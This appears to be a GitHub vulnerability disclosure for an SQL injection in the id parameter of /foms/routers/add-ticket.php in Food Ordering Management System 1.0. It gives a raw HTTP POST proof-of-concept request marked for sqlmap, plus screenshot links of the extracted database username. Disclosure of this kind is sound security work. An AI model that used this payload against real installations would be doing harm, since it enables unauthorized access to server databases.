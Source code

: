 ##Food Ordering Management System has a front-end SQL injection vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/routers/add-ticket.php

## Description:
Food Ordering Management  1.0 is vulnerable to an unrestricted SQL injection attack in /foms/routers/add-ticket.php with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /foms/routers/add-ticket.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://localhost
Connection: close
Referer: http://localhost/foms/register.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

type=2dsadsad&id=2dsadsa*&subject=22312&description=21242421312312312
```

Get database username through sqlma

![CleanShot 2024-09-04 at 16 05 07@2x](https://github.com/user-attachments/assets/d2b42765-9301-4603-a091-afef303bcf71)
![CleanShot 2024-09-04 at 16 05 41@2x](https://github.com/user-attachments/assets/1a460942-d900-4af8-b7a4-958c67a95daf)


